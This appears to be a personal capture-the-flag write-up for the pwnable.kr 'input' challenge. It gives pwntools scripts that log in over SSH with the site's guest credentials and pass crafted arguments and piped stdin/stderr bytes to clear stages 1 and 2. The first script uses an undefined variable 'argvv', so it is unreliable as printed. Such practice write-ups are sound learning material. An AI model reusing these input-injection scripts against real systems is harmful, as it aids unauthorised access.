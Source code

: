 So, we use python to generate 100 **"",**

```python
"\"\"," * 100
```

So, we meet condition 1.

Then, to meet other conditions.

exp: 

```python
from pwn import *

pwn_ssh = ssh(host="pwnable.kr", port=2222, user="input2", password="guest")
args = ["","","","","","","","","","","","","","","","","","","","","","","","","","","","","","","","","","","","","","","","","","","","","","","","","","","","","","","","","","","","","","","","","","","","","","","","","","","","","","","","","","","","","","","","","","","","","","","","","","","",""]
argvv[65] = "\x00"
argvv[66] = "\x20\x0a\x0d"

shell = pwn_ssh.process(executable="./input", argv=args)

shell.recvuntil(b"Stage 1 clear!\n")
print("Stage 1 clear!\n")
```

Stage 1 clear!

Go to stage 2.

```C
        // stdio
        char buf[4];
        read(0, buf, 4);
        if(memcmp(buf, "\x00\x0a\x00\xff", 4)) return 0;
        read(2, buf, 4);
        if(memcmp(buf, "\x00\x0a\x02\xff", 4)) return 0;
        printf("Stage 2 clear!\n");
```

To be honest, I don't know how to input with fd 2.

Let's google it.

OK. we can do it by python like this: 

```python
from pwn import *
import os

args = [b'A'] * 100
args[ord('A')] = b'\x00'
args[ord('B')] = b'\x20\x0a\x0d'

r0, w0 = os.pipe()
r2, w2 = os.pipe()
os.write(w0, b'\x00\x0a\x00\xff')
os.write(w2, b'\x00\x0a\x02\xff')

p = process(executable='/home/input2/input', argv=args, stdin=r0, stderr=r2)
p.interactive()
```
